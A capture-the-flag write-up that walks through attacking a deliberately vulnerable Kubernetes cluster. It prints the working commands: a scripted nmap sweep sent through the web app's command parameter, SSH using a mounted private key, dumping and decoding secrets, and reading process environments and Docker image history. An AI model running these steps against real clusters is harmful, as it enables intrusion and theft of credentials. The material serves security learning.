

# Kubernetes Easter CTF

Originally hosted by [@NodyTweet](https://twitter.com/NodyTweet) at [http://k8s-ctf.rocks](http://k8s-ctf.rocks) from 4/9/2020 - 4/13/2020

Writeup by [@faiyafrower](https://twitter.com/faiyafrower)

[https://www.github.com/mjlshen](https://www.github.com/mjlshen)

## Rules and Guidelines

- **AWS Metadataservice as well as other AWS services are out-of-scope.**
- Container Breakouts are not part of the game.
- Outbound communication is only on port 4444 permitted.
- Do not abuse the cluster for malicious purposes.
- Scope:
  - The container and services inside the cluster
  - The Dockerfiles on [https://github.com/NodyHub/k8s-ctf-rocks](https://github.com/NodyHub/k8s-ctf-rocks)
  - The container images on [https://hub.docker.com/u/nodyd](https://hub.docker.com/u/nodyd) (prefix e20)
- An example how an EGG may look like:
  **THIS-IS-JUST-AN-EXAMPLE-FOR-AN-EGG-EGG**
- EGGs are located in common juicy spots of Kubernetes pentests.
- Please do not DoS the CTF, ty :)
- Enjoy the hunt!

<div style="page-break-after: always; break-after: page;"></div>

## Enumeration

The actual chronological order of my enumeration compared to what I have written here was all over the place, but I have decided to organize the description of my enumeration in a more logical order. Throughout it, I linked where this enumeration could/should have led to "eggs" and other experiments that I ran that didn't always lead to progress with respect to the CTF, but were nonetheless educational for me.

### Dockerfiles

I browsed in the provided [GitHub repo](https://github.com/NodyHub/k8s-ctf-rocks) to look at the provided Dockerfiles. This led to the [first two eggs](#plaintext-secrets-in-dockerfile), but I also learned the following:

- The *egg* container serves up the EGG environment variable on port 8080
- The *entry* container serves up a [PHP web application](#how-does-the-php-app-work) on port 80, which was hosted at [http://k8s-ctf.rocks](http://k8s-ctf.rocks) during the CTF
  - It has network enumeration tools installed, such as `nmap`, but also curiously `kubectl` and `ssh-client`
  - It has socat, netcat, and python installed that would allow for a reverse shell on port 4444 as described in the rules
  - It curiously writes out an environment variable to a file and then immediately removes said file. This led me to the [ninth egg](#secret-in-gitHub-workflow)
- The *ssh* container runs an sshd server on port 6667 and has a user `user`

### entry pod/container

Returning to the main page of the CTF, I tried various basic commands and confirmed that I was in the entry container with `hostname`, which gave me the name of the pod.

```shell
entry-8598b84874-9jjfq
```

Knowing from looking at the Dockerfile that kubectl was installed, I tried `kubectl get pods`, but I got this response:

```shell
Error from server (Forbidden): pods is forbidden: User "system:serviceaccount:foo:egg-thief" cannot list resource "pods" in API group "" in the namespace "foo"
```

#### RBAC

Although I didn't have the necessary RBAC to list pods, I can learn from this that I'm in the *foo* namespace and am running as the *egg-thief* serviceaccount. I could (and did) continue trying other kubectl commands in and attempt to brute-force enumerate, but I learned that `kubectl auth can-i --list -n foo` will show my API access completely in the foo namespace[^can-i_docs]. I also get to see confirmation that this is running on EKS as noted in the rules.
[^can-i_docs]: [https://kubernetes.io/docs/reference/access-authn-authz/authorization/#authorization-modules](https://kubernetes.io/docs/reference/access-authn-authz/authorization/#authorization-modules) I was curious about whether I could determine the RBAC I had for any/all namespaces, but I found that there's no way to do this. In some sense one could brute-force namespace names (granted some make sense to always check, such as as kube-system and default) and see what RBAC has been granted, but it's not that promising if you're just shooting in the dark.

```shell
Resources                                       Non-Resource URLs   Resource Names     Verbs
selfsubjectaccessreviews.authorization.k8s.io   []                  []                 [create]
selfsubjectrulesreviews.authorization.k8s.io    []                  []                 [create]
secrets                                         []                  []                 [get watch list]
                                                [/api/*]            []                 [get]
                                                [/api]              []                 [get]
                                                [/apis/*]           []                 [get]
                                                [/apis]             []                 [get]
                                                [/healthz]          []                 [get]
                                                [/healthz]          []                 [get]
                                                [/openapi/*]        []                 [get]
                                                [/openapi]          []                 [get]
                                                [/version/]         []                 [get]
                                                [/version/]         []                 [get]
                                                [/version]          []                 [get]
                                                [/version]          []                 [get]
podsecuritypolicies.policy                      []                  [eks.privileged]   [use]
```

So I'm allowed to read secrets in the foo namespace! This led to the third [egg](#allowed-to-read-secrets-in-foo-namespace)

#### Environment Variables in entry

Looking at the environment variables `env` could show those passed in normally as Kubernetes ConfigMaps or Secrets, but I learned there are also a set provided by the [Kubernetes container environment](https://kubernetes.io/docs/concepts/containers/container-environment/), which give information about all services in the same namespace as this container and the name of the pod that the container is part of:

```shell
JOKER_PORT_80_TCP_ADDR=10.100.222.61
KUBERNETES_SERVICE_PORT=443
ENTRY_SERVICE_PORT_HTTP=80
KUBERNETES_PORT=tcp://10.100.0.1:443
SSH_PORT_6667_TCP_PORT=6667
JOKER_PORT_80_TCP_PORT=80
SSH_PORT_6667_TCP_PROTO=tcp
HOSTNAME=entry-8598b84874-txqmb
JOKER_PORT_80_TCP_PROTO=tcp
EGG_SERVICE_PORT_HTTP=80
ENTRY_SERVICE_HOST=10.100.228.50
SSH_PORT_6667_TCP=tcp://10.100.52.237:6667
EGG_SERVICE_HOST=10.100.87.90
JOKER_PORT_80_TCP=tcp://10.100.222.61:80
ENTRY_SERVICE_PORT=80
ENTRY_PORT=tcp://10.100.228.50:80
SSH_SERVICE_PORT_SSH=6667
JOKER_SERVICE_PORT_HTTP=80
EGG_SERVICE_PORT=80
EGG_PORT=tcp://10.100.87.90:80
KUBERNETES_PORT_443_TCP_ADDR=10.100.0.1
ENTRY_PORT_80_TCP_ADDR=10.100.228.50
KUBERNETES_PORT_443_TCP_PORT=443
KUBERNETES_PORT_443_TCP_PROTO=tcp
ENTRY_PORT_80_TCP_PORT=80
ENTRY_PORT_80_TCP_PROTO=tcp
EGG_PORT_80_TCP_ADDR=10.100.87.90
JOKER_SERVICE_HOST=10.100.222.61
EGG_PORT_80_TCP_PORT=80
SSH_SERVICE_HOST=10.100.52.237
EGG_PORT_80_TCP_PROTO=tcp
KUBERNETES_SERVICE_PORT_HTTPS=443
KUBERNETES_PORT_443_TCP=tcp://10.100.0.1:443
ENTRY_PORT_80_TCP=tcp://10.100.228.50:80
KUBERNETES_SERVICE_HOST=10.100.0.1
JOKER_SERVICE_PORT=80
JOKER_PORT=tcp://10.100.222.61:80
SSH_SERVICE_PORT=6667
SSH_PORT=tcp://10.100.52.237:6667
EGG_PORT_80_TCP=tcp://10.100.87.90:80
SSH_PORT_6667_TCP_ADDR=10.100.52.237
```

It's a big dump of information, but I learned that there's a *joker* service (and probably pod)! I can also reason that an *egg* service is forwarding port 80 to port 8080 since I know the container itself is exposing port 8080 from its Dockerfile.

Curling the egg service, `curl -s egg.foo.svc.cluster.local`, should give me an egg, but doing so from the entry container causes it to hang and I find the same for joker, `curl -s joker.foo.svc.cluster.local`. In Kubernetes, pods allow communication by default[^k8s_networkpolicy_doc] depending on the implementation, especially within the same namespace, so there must be a Network Policy in the way. I could successfully `curl -s entry.foo.svc.cluster.local` and get the same page back, which isn't really useful, but good confirmation that there's no issue with Kubernetes' DNS.
>I ran an experiment [below](#experiment-look-for-nodeports-on-k8s-node) to search for NodePorts on the Kuberentes node because I had a hypothesis that curling those might bypass a Network Policy depending on how it's written, but wasn't successful.

[^k8s_networkpolicy_doc]: [https://kubernetes.io/docs/concepts/services-networking/network-policies/](https://kubernetes.io/docs/concepts/services-networking/network-policies/)

#### Mounts in entry

Now, ConfigMaps, Secrets, and other objects can also be mounted into containers. I ran `mount` to look for these (I could view the secrets in the foo namespace with `kubectl`, so none of these should be secrets) and found the following of interest:

```shell
/dev/xvda1 on /dev/termination-log type xfs (rw,noatime,attr2,inode64,noquota)
/dev/xvda1 on /entry/cfg type xfs (ro,noatime,attr2,inode64,noquota)
/dev/xvda1 on /etc/resolv.conf type xfs (rw,noatime,attr2,inode64,noquota)
/dev/xvda1 on /etc/hostname type xfs (rw,noatime,attr2,inode64,noquota)
/dev/xvda1 on /etc/hosts type xfs (rw,noatime,attr2,inode64,noquota)
tmpfs on /run/secrets/kubernetes.io/serviceaccount type tmpfs (ro,relatime)
/dev/xvda1 on /run/secrets/kubernetes.io/ssh type xfs (ro,noatime,attr2,inode64,noquota)
```

- `/dev/termination-log` is the default location for Kubernets to determine the status of the pod[^k8s_termination_docs]
- Pods by default inherit DNS from the nodes[^k8s_dns_docs] and we can see that here from the `/etc/hosts`, `/etc/hostname`, and `/etc/resolv.conf` mounts.
- The Kubernetes service account that is running the pod gets its credentials (ca.crt, token, and namespace) mounted into `/run/secrets/kubernetes.io/serviceaccount` into each container[^k8s_token_docs]

[^k8s_dns_docs]:[https://kubernetes.io/docs/tasks/administer-cluster/dns-custom-nameservers/#introduction](https://kubernetes.io/docs/tasks/administer-cluster/dns-custom-nameservers/#introduction) If a Pod’s `dnsPolicy` is set to “`default`”, it inherits the name resolution configuration from the node that the Pod runs on. The Pod’s DNS resolution should behave the same as the node. Furthermore, the DNS server supports forward lookups (A records), port lookups (SRV records), reverse IP address lookups (PTR records).

[^k8s_termination_docs]:[https://kubernetes.io/docs/tasks/debug-application-cluster/determine-reason-pod-failure/#customizing-the-termination-message](https://kubernetes.io/docs/tasks/debug-application-cluster/determine-reason-pod-failure/#customizing-the-termination-message) Kubernetes use the contents from the specified file to populate the Container’s status message on both success and failure.
[^k8s_token_docs]: [https://kubernetes.io/docs/tasks/access-application-cluster/access-cluster/#accessing-the-api-from-a-pod](https://kubernetes.io/docs/tasks/access-application-cluster/access-cluster/#accessing-the-api-from-a-pod) The documentation says `/var/run/secrets/kubernetes.io/serviceaccount`, but I found `/var/run` is just a symlink to `/run`

That leaves `/entry/cfg` and `/run/secrets/kubernetes.io/ssh` as likely ConfigMaps!

- My investigation of `/entry/cfg` led to the [seventh egg](#cfg-configmap-mounted-in-entry) I found.
- My investigation of `/run/secrets/kubernetes.io/ssh` allowed me to [access the ssh pod](#ssh-podcontainer).

### ssh pod/container

Poking around in `/run/secrets/kubernetes.io/ssh`, I found a public and private SSH key. I recalled from studying the provided Dockerfiles that the ssh container is running sshd on port 6667 and has a user named user and that entry has ssh-client installed. So, I tried it out and confirmed that it worked!

```bash
ssh -p 6667 \
    -qi /run/secrets/kubernetes.io/ssh/private_key \
    user@ssh.foo.svc.cluster.local \
    hostname
```

```shell
ssh-7bdf487cbd-c5fpf
```

#### Environment Variables in ssh

Looking at the environment variables of ssh, I expected to find perhaps more ConfigMaps, but there didn't seem to be any.

```bash
ssh -p 6667 \
    -qi /run/secrets/kubernetes.io/ssh/private_key \
    user@ssh.foo.svc.cluster.local \
    env
```

```shell
MAIL=/var/mail/user
USER=user
SSH_CLIENT=192.168.49.105 60864 6667
SHLVL=1
HOME=/home/user
LOGNAME=user
PATH=/bin:/usr/bin:/sbin:/usr/sbin
SHELL=/bin/ash
PWD=/home/user
SSH_CONNECTION=192.168.49.105 60864 192.168.49.107 6667
```

Perhaps the only additional information I gained from this was the Pod CIDR (Classless Inter-Domain Routing), which is the subnet in which Pods will be randomly assigned IP addresses. There are a couple defaults[^k8s_cluster_kubeadm_docs] and from the values I'm given `192.168.0.0/16` is my guess.

[^k8s_cluster_kubeadm_docs]: [https://kubernetes.io/docs/setup/production-environment/tools/kubeadm/create-cluster-kubeadm/](https://kubernetes.io/docs/setup/production-environment/tools/kubeadm/create-cluster-kubeadm/) See the section titled "Installing a Pod network add-on" for more details.

>One thing that I initially completely missed was that it didn't even have the [Kubernetes container environment](https://kubernetes.io/docs/concepts/containers/container-environment/) variables! My investigation of this led to the [eighth egg](#sshd-clears-parents-environment-variables)

#### Mounts in ssh

Using similar reasoning to my enumeration of the entry container, viewing the mounts of the ssh container could be interesting.

```bash
ssh -p 6667 \
    -qi /run/secrets/kubernetes.io/ssh/private_key \
    user@ssh.foo.svc.cluster.local \
    env
```

```shell
/dev/xvda1 on /home/user/.ssh/key type xfs (rw,noatime,attr2,inode64,noquota)
/dev/xvda1 on /home/user/.ssh/authorized type xfs (ro,noatime,attr2,inode64,noquota)
tmpfs on /run/secrets/kubernetes.io/serviceaccount type tmpfs (ro,relatime)
```

Looking into these ConfigMaps they really just set up the necessary configuration to enable me to ssh in the first place from the entry container and my [investigation](#default-serviceaccount-in-foo-namespace) into the serviceaccount being used by the ssh pod showed that it was just the default serviceaccount in the foo namespace, which had no useful permissions granted via RBAC.

### nmap enumeration

I ran many experiments here and only recorded the more significant ones. I tried to [nmap the API Server](#nmap-the-api-server), [nmap the Pod CIDR on port 80](#nmap-the-pod-cidr-on-port-80), and [nmap the K8s node to look for NodePort Services](look-for-nodeports-on-k8s-node), all of which taught me things, but did not end up being ways forward in this CTF. This line of thinking did lead me to discover the [fourth egg](#no-networkpolicy-blocking-traffic-from-ssh-to-egg) though!

#### Exploit Kubernetes DNS PTR records for enumeration

Once I guessed wht the Pod CIDR range was from viewing ssh's environment variables, I could actually somewhat exploit Kubernetes DNS to enumerate all services running in the cluster using nmap[^k8s_dns_docs]. By depending the PTR records, I could nmap the entire `192.168.0.0/16` and reverse lookup to gain information on pod names and namespaces.

Specifically, I found nmap's `-sL` flag (sends no packets and just do a reverse-lookup) especially useful[^nmap_docs]. This only took 12 minutes to run, much faster than my earlier nmap experiments.

[^nmap_docs]:[https://nmap.org/book/host-discovery-controls.html](https://nmap.org/book/host-discovery-controls.html)

```bash
#!/bin/bash
for i in {0..255}
do
  nmap=`curl -s http://k8s-ctf.rocks/?fcommand=nmap+-sL+192.168.$i.0-255`
  printf "%s" "$nmap" >> test.txt
done
```

Here are the interesting bits after parsing and cleaning it:

```shell
Nmap scan report for 192-168-33-248.entry.foo.svc.cluster.local (192.168.33.248)
Nmap scan report for 192-168-35-47.egg.foo.svc.cluster.local (192.168.35.47)
Nmap scan report for 192-168-40-105.calico-typha.kube-system.svc.cluster.local (192.168.40.105)
Nmap scan report for 192-168-49-107.entry.foo.svc.cluster.local (192.168.49.107)
Nmap scan report for 192-168-57-81.joker.foo.svc.cluster.local (192.168.57.81)
Nmap scan report for 192-168-61-236.ssh.foo.svc.cluster.local (192.168.61.236)
Nmap scan report for 192-168-68-105.ssh.foo.svc.cluster.local (192.168.68.105)
Nmap scan report for 192-168-71-233.traefik.traefik.svc.cluster.local (192.168.71.233)
Nmap scan report for 192-168-87-226.kube-dns.kube-system.svc.cluster.local (192.168.87.226)
Nmap scan report for 192-168-90-163.datadog-kube-state-metrics.default.svc.cluster.local (192.168.90.163)
Nmap scan report for entry-8598b84874-gkglr (192.168.90.174)
Nmap scan report for 192-168-90-188.honk.bar.svc.cluster.local (192.168.90.188)
Nmap scan report for 192-168-90-231.kube-dns.kube-system.svc.cluster.local (192.168.90.231)
Nmap scan report for 192-168-94-68.entry.foo.svc.cluster.local (192.168.94.68)
Nmap scan report for 192-168-151-115.kubernetes.default.svc.cluster.local (192.168.151.115)
Nmap scan report for 192-168-174-156.kubernetes.default.svc.cluster.local (192.168.174.156)
```

This was really cool to see work, albeit kind of scary - this is kind of enumeration is explicitly denied by cluster RBAC. Things I learned from this information:

- There is a `bar` namespace and a service named `honk`! If there were other namespaces and services I would see them here as well. My investigation of this would lead to the [fifth egg](#honk-service-in-bar-namespace).
- There's a [traefik Ingress Controller](https://docs.traefik.io/providers/kubernetes-ingress/) configured in this cluster. My investigation of this would lead to the [sixth egg](#joker-ingress).
- Datadog is being used to monitor this, not part of the CTF but cool too see
- Calico is probably the CNI - assuming that's what that `calico-typha.kube-system` service is, though EKS documentation suggest the CNI is Amazon's own VPC CNI[^eks_cni_docs]. I [looked into this](#investigate-calico-cni), but did not find much useful information.

[^eks_cni_docs]:[https://docs.aws.amazon.com/eks/latest/userguide/pod-networking.html](https://docs.aws.amazon.com/eks/latest/userguide/pod-networking.html)

<div style="page-break-after: always; break-after: page;"></div>

## Eggs

### Plaintext Secrets in Dockerfile

Peeking around in the source code of the provided Dockerfiles, I found two eggs! Writing secrets in Dockerfiles is a big no-no and easy to find.

- [https://github.com/NodyHub/k8s-ctf-rocks/blob/master/docker-images/entry/Dockerfile](https://github.com/NodyHub/k8s-ctf-rocks/blob/master/docker-images/entry/Dockerfile)
- [https://github.com/NodyHub/k8s-ctf-rocks/blob/master/docker-images/egg/Dockerfile](https://github.com/NodyHub/k8s-ctf-rocks/blob/master/docker-images/egg/Dockerfile)

**DEFAULT-ARG-EASTER-EGG** and **OMG-FANCY-DEFAULT-WHO-WOULD-EXPECT-THIS-EGG**

### Allowed to Read Secrets in foo Namespace

Running `kubectl get secrets` notably showed the existence of the Kubernetes secret: `entry-secret-egg`.

```shell
NAME                          TYPE                                  DATA   AGE
default-token-vdfxz           kubernetes.io/service-account-token   3      17h
egg-thief-token-k25z2         kubernetes.io/service-account-token   3      6h59m
entry-secret-egg              Opaque                                1      6h59m
sh.helm.release.v1.egg.v1     helm.sh/release.v1                    1      12h
sh.helm.release.v1.entry.v1   helm.sh/release.v1                    1      6h59m
sh.helm.release.v1.joker.v1   helm.sh/release.v1                    1      12h
sh.helm.release.v1.ssh.v1     helm.sh/release.v1                    1      12h
```

> I didn't know at the time, but "Helm v2 [used ConfigMaps](http://technosophos.com/2017/03/23/how-helm-uses-configmaps-to-store-data.html) by default to store release information. The ConfigMaps were created in the same namespace of the Tiller (generally `kube-system`).
>
> In Helm v3 the Tiller was removed, and the information about each release version [had to go somewhere](https://v3.helm.sh/docs/faq/#release-names-are-now-scoped-to-the-namespace) - in the same namespace as the release itself as a Secret."[^helm3_release_secret] Inside the Helm v2 ConfigMaps/Helm v3 Secrets, there's a `data.release` field which is "a base-64 encoded, gzipped archive of the entire release record, which includes the original chart, the values, and some useful state-tracking information."[^helm2_data_release]
>
> These secrets were removed part-way through the CTF (because this wasn't intended and a Helm Chart and its values shows pratically everything about an application) before I learned about that and circled back to try. Moral of the story is don't use helm to deploy something into the same namespace where it's running - or don't let people see those secrets!

[^helm2_data_release]: http://technosophos.com/2017/03/23/how-helm-uses-configmaps-to-store-data.html
[^helm3_release_secret]: [https://stackoverflow.com/a/58693790](https://stackoverflow.com/a/58693790)

Running `kubectl get secret entry-secret-egg -o yaml` gives

```yaml
apiVersion: v1
data:
  EGG: SFVIVS1XSEFULUFOLUFNQVpJTkctSzhTLVNFQ1JFVFMtRUdH
kind: Secret
metadata:
  creationTimestamp: "2020-04-09T18:22:33Z"
  labels:
    app: entry
    chart: entry-0.1.0
    heritage: Helm
    release: entry
  name: entry-secret-egg
  namespace: foo
  resourceVersion: "66197"
  selfLink: /api/v1/namespaces/foo/secrets/entry-secret-egg
  uid: 40439be1-0861-4b28-a861-6da05fadace4
type: Opaque
```

Kubernetes secrets are just base64 encoded[^k8s_secrets_docs], so if we base64 decode the secret:
[^k8s_secrets_docs]: [https://kubernetes.io/docs/concepts/configuration/secret/](https://kubernetes.io/docs/concepts/configuration/secret/)

```bash
echo -n "SFVIVS1XSEFULUFOLUFNQVpJTkctSzhTLVNFQ1JFVFMtRUdH" | base64 -D
```

There's an egg! **HUHU-WHAT-AN-AMAZING-K8S-SECRETS-EGG**

### No NetworkPolicy blocking traffic from ssh to egg

I played around with many commands, but ended up stumbling upon the realization that I'm able to curl egg.foo.cluster.local from the ssh container as well, giving us our fourth egg!

```bash
ssh -p 6667 \
    -qi /run/secrets/kubernetes.io/ssh/private_key \
    user@ssh.foo.svc.cluster.local \
    'curl -s egg.foo.svc.cluster.local'
```

As expected, we finally can view the egg being served up by the egg container! **WOOOOOOOT-AN-EGG-FROM-A-HIDDEN-WEBPAGE-EGG**

There must be a NetworkPolicy of some sort in place preventing entry from talking to egg directly. I'm unable to reach joker from ssh though, so it seems we'll need to get a foothold elsewhere.

### honk service in bar namespace

By running `nmap 192.168.90.188`, which is the IP address of the honk container, I found that port 8080 is open...

```shell
Starting Nmap 7.70 ( https://nmap.org ) at 2020-04-11 16:59 UTC
Nmap scan report for 192-168-90-188.honk.bar.svc.cluster.local (192.168.90.188)
Host is up (0.00018s latency).
Not shown: 999 closed ports
PORT     STATE SERVICE
8080/tcp open  http-proxy

Nmap done: 1 IP address (1 host up) scanned in 5.20 seconds
```

and curling it `curl -s 192.168.90.188:8080`, the fifth egg! **HONK-HONK-HONK-HONK-HONK-HONK-HONK-HONK-HONK-HONK-HONK-HONK-HONK-EGG**

> Out of curiousity I also tried `curl -s honk.bar.svc.cluster.local` from entry as well as from ssh, both of which succeeded, so there did not seem to be a NetworkPolicy blocking traffic to honk.

### joker Ingress

The `joker` service in the `foo` namespace was a thorn in my side from very early on in the CTF and I was always looking for another pod I could get into that may not be blocked by a NetworkPolicy. Finally, when I thought about the fact that this cluster does have an Ingress Controller, [traefik](https://docs.traefik.io/providers/kubernetes-ingress/), it led me along the correct line of experimentation.

Kubernetes Ingress resources expose internal resources to external traffic[^k8s_ing_docs]. It must be utilized for entry (that's how I've been able to access it at `http://k8s-ctf.rocks`, so out of curiousity I tried to access `http://k8s-ctf.rocks/joker`, which didn't work, but `http://joker.k8s-ctf.rocks/` worked!

>Out of curiousity I tried `http://entry.k8s-ctf.rocks` and `http://lol.k8s-ctf.rocks` which both routed traffic to the entry service. This means that essentially an Ingress is defined that routes joker.k8s-ctf.rocks to the joker service and *.k8s-ctf.rocks to the entry service with only the path `/` defined (as opposed to, for example, `/joker`).

That's how I found the sixth egg! **NANANA-ACCESSIBLE-ONLY-OVER-INGRESS-LOL-EGG**

I later learned that you can actually access the Ingress Controller internally as well[^internal_traefik]!

[^internal_traefik]: You just need to pass a header defining Host. For more information see the Kubernetes Ingress documentation: [https://kubernetes.io/docs/concepts/services-networking/ingress/](https://kubernetes.io/docs/concepts/services-networking/ingress/)
```bash
curl -s http://traefik.traefik.svc.cluster.local -H 'Host: joker.k8s-ctf.rocks'
```

[^k8s_ing_docs]:[https://kubernetes.io/docs/concepts/services-networking/ingress/](https://kubernetes.io/docs/concepts/services-networking/ingress/)

### /cfg ConfigMap mounted in entry

When investigating the ConfigMap mounted at `/entry/cfg` with `ls -la /entry/cfg` I saw the existence of one config.php file.

```shell
total 0
drwxrwxrwx 3 root root 77 Apr 12 06:23 .
drwxr-xr-x 1 root root 17 Apr 12 06:23 ..
lrwxrwxrwx 1 root root 17 Apr 12 06:23 config.php -> ..data/config.php
```

Trying to view its contents with `cat /entry/cfg/config.php` produces no output in the browser, which is strange because I can see it has a non-zero size. Viewing the source of the papge or curling it from my local machine showed why - it is written as a PHP comment:

```php
<?php /* $EGG="AMAZING-CONFIG-FILE-EGG"; */ ?>
```

So there's the seventh egg! **AMAZING-CONFIG-FILE-EGG**
>TODO: This would have been easier to see if running from a reverse shell as well, which I did not figure out

### sshd clears parent's environment variables

Something that was pointed out to me is that there is something strange about the environment variables presented by the ssh container:

```shell
MAIL=/var/mail/user
USER=user
SSH_CLIENT=192.168.93.153 41638 6667
SHLVL=1
HOME=/home/user
LOGNAME=user
PATH=/bin:/usr/bin:/sbin:/usr/sbin
SHELL=/bin/ash
PWD=/home/user
SSH_CONNECTION=192.168.93.153 41638 192.168.91.157 6667
```

Where are the variables set by the [Kubernetes container environment](https://kubernetes.io/docs/concepts/containers/container-environment/)? It's due to how sshd is designed[^sshd_docs]. If you look at the processes in our case that are running after SSH'ing into the ssh container and inspecting running processes,

[^sshd_docs]: I really found this documentation helpful in understanding how SSHD works [https://www.ssh.com/ssh/sshd/#startup-and-roles-of-different-sshd-processes](https://www.ssh.com/ssh/sshd/#startup-and-roles-of-different-sshd-processes)

```bash
ssh -p 6667 \
    -qi /run/secrets/kubernetes.io/ssh/private_key \
    user@ssh.foo \
    ps aux
```

we will find something like the following.

```shell
PID   USER     TIME  COMMAND
    1 user      0:00 /usr/sbin/sshd -D -f /home/user/.ssh/sshd_config
 1930 user      0:00 sshd: user [priv]
 1932 user      0:00 sshd: user@notty
 1933 user      0:00 ps aux
```

*PID 1* is the parent process running the sshd server, upon a valid SSH connection, a fork of the parent process is created in *PID 1930*, which in turn creates a login shell, *PID 1932*, in which we can see our command in *PID 1933*.

```bash
ssh -p 6667 \
    -qi /run/secrets/kubernetes.io/ssh/private_key \
    user@ssh.foo.svc.cluster.local \
    cat /proc/1/environ
```

Shows the environment variables before they got wiped by sshd, including the Kubernetes container environment...

```shell
JOKER_PORT_80_TCP_ADDR=10.100.222.61
ENTRY_SERVICE_PORT_HTTP=80
KUBERNETES_SERVICE_PORT=443
KUBERNETES_PORT=tcp://10.100.0.1:443
SSH_PORT_6667_TCP_PORT=6667
SSH_PORT_6667_TCP_PROTO=tcp
JOKER_PORT_80_TCP_PORT=80
HOSTNAME=ssh-7bdf487cbd-c5fpf
JOKER_PORT_80_TCP_PROTO=tcp
EGG_SERVICE_PORT_HTTP=80
SHLVL=1
HOME=/home/user
ENTRY_SERVICE_HOST=10.100.181.239
SSH_PORT_6667_TCP=tcp://10.100.52.237:6667
EGG_SERVICE_HOST=10.100.87.90
JOKER_PORT_80_TCP=tcp://10.100.222.61:80
ENTRY_SERVICE_PORT=80
ENTRY_PORT=tcp://10.100.181.239:80
SSH_SERVICE_PORT_SSH=6667
KUBERNETES_PORT_443_TCP_ADDR=10.100.0.1
EGG_SERVICE_PORT=80
JOKER_SERVICE_PORT_HTTP=80
EGG_PORT=tcp://10.100.87.90:80
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
ENTRY_PORT_80_TCP_ADDR=10.100.181.239
KUBERNETES_PORT_443_TCP_PORT=443
KUBERNETES_PORT_443_TCP_PROTO=tcp
ENTRY_PORT_80_TCP_PORT=80
EGG_PORT_80_TCP_ADDR=10.100.87.90
ENTRY_PORT_80_TCP_PROTO=tcp
JOKER_SERVICE_HOST=10.100.222.61
EGG=SUPER-SECRET-ENV-EGG
EGG_PORT_80_TCP_PORT=80
EGG_PORT_80_TCP_PROTO=tcp
SSH_SERVICE_HOST=10.100.52.237
KUBERNETES_PORT_443_TCP=tcp://10.100.0.1:443
KUBERNETES_SERVICE_PORT_HTTPS=443
JOKER_SERVICE_PORT=80
ENTRY_PORT_80_TCP=tcp://10.100.181.239:80
JOKER_PORT=tcp://10.100.222.61:80
KUBERNETES_SERVICE_HOST=10.100.0.1
PWD=/home/user
SSH_SERVICE_PORT=6667
SSH_PORT=tcp://10.100.52.237:6667
EGG_PORT_80_TCP=tcp://10.100.87.90:80
SSH_PORT_6667_TCP_ADDR=10.100.52.237
```

...but also the eigth egg! **SUPER-SECRET-ENV-EGG**

### Secret in GitHub Workflow

When looking at entry's [Dockerfile](https://github.com/NodyHub/k8s-ctf-rocks/blob/master/docker-images/entry/Dockerfile) - this section stuck out initially

```Dockerfile
ARG GHA_EASTER_EGG="DEFAULT-ARG-EASTER-EGG"
RUN echo $GHA_EASTER_EGG > /EGG
RUN rm /EGG
```

However, since I found that egg and another that was being set as a Kubernetes secret, I didn't think much of it until I noticed that these containers were being build with [this GitHub workflow](https://github.com/NodyHub/k8s-ctf-rocks/blob/master/.github/workflows/build-images.yaml), where we can see that a different value for `GHA_EASTER_EGG` is being passed in!

```yaml
- name: Build entry
  id: entry
  uses: docker/build-push-action@v1
  with:
    username: ${{ secrets.DOCKER_USERNAME }}
    password: ${{ secrets.DOCKER_PASSWORD }}
    path: docker-images/entry/
    build_args: GHA_EASTER_EGG=${{ secrets.GHA_EASTER_EGG }}
    repository: nodyd/e20-entry
    tags: latest
```

I can view this secret by inspecting the layers of the docker container itself. First, by downloading it locally with `docker pull nodyd/e20-entry`, then by inspecting each layer with `docker history nodyd/e20-entry`, which shows the command being run at each layer:

```shell
IMAGE               CREATED             CREATED BY                                      SIZE
6a319bfcfd05        2 days ago          /bin/sh -c #(nop)  EXPOSE 80                    0B
<missing>           2 days ago          /bin/sh -c #(nop)  CMD ["apache2-foreground"]   0B
<missing>           2 days ago          /bin/sh -c #(nop) WORKDIR /entry                0B
<missing>           2 days ago          |1 GHA_EASTER_EGG=WHOOO-A-SECRET-GITHUB-ACTI…   21.5kB
<missing>           2 days ago          /bin/sh -c #(nop) COPY dir:2bfc1e95a4019db7f…   10.7kB
<missing>           2 days ago          /bin/sh -c #(nop)  ENV APACHE_DOCUMENT_ROOT=…   0B
